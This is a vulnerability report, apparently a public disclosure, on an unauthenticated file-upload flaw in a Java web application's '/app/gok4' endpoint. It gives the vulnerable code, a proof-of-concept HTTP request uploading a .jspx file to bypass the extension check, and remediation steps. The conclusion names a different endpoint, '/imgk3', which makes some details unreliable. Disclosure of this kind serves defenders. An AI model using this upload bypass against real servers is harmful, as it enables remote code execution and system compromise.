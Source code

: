 ![image-20250208160734873](./assets/image-20250208160734873.png)

![image-20250208160539277](./assets/image-20250208160539277.png)



# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
The application allows unauthenticated users to upload files via the `/gok4` endpoint. The uploaded files are not properly validated, which can lead to remote code execution (RCE) if a malicious file is uploaded.

### Affected Endpoint:
`/app/gok4`

### Vulnerability Type:
Unauthenticated RCE

### Vulnerable Code:
```java
public String go(HttpServletRequest request, HttpServletResponse response) {
    try {
        String referer = request.getHeader("referer");
        Pattern p = Pattern.compile("([a-z]*:(//[^/?#]+)?)?", 2);
        Matcher mathcer = p.matcher(referer);
        if (mathcer.find()) {
            String callBackPath = mathcer.group();
            MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
            MultipartFile imgFile = multipartRequest.getFile("fileupload");
            if (imgFile.getName().endsWith(".jsp")) {
                return null;
            }

            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveImage(imgFile, paths);
            String url = "redirect:" + callBackPath + "/kindeditor/plugins/image/redirect.html?s=" + json.toString() + "#" + json.toString();
            logger.info("++++gok4 return:" + url);
            return url;
        }
    } catch (Exception var12) {
        logger.error("gok4 error", var12);
    }

    return null;
}
```

### Proof of Concept (PoC):
```http
POST /app/gok4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.jspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:

An attacker can exploit this vulnerability to upload a JSP file with a different extension (e.g., `.jspx`). This file can contain malicious code, which, when executed by the server, can lead to remote code execution. This allows the attacker to execute arbitrary commands on the server, potentially compromising the entire system.

### Recommendation:

1. **File Type Validation**: Implement strict file type validation to ensure only allowed file types are uploaded.
2. **Authentication and Authorization**: Ensure that file upload functionality is restricted to authenticated and authorized users.
3. **File Content Scanning**: Use antivirus or antimalware tools to scan the content of uploaded files for potential threats.
4. **File Storage**: Store uploaded files outside the web root to prevent direct access via the web server.

### Conclusion:

The unauthenticated file upload functionality in the `/imgk3` endpoint poses a significant security risk, allowing attackers to execute arbitrary code on the server. It is crucial to implement proper validation, authentication, and security measures to mitigate this vulnerability.

### References:

- [OWASP File Upload Guidelines](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)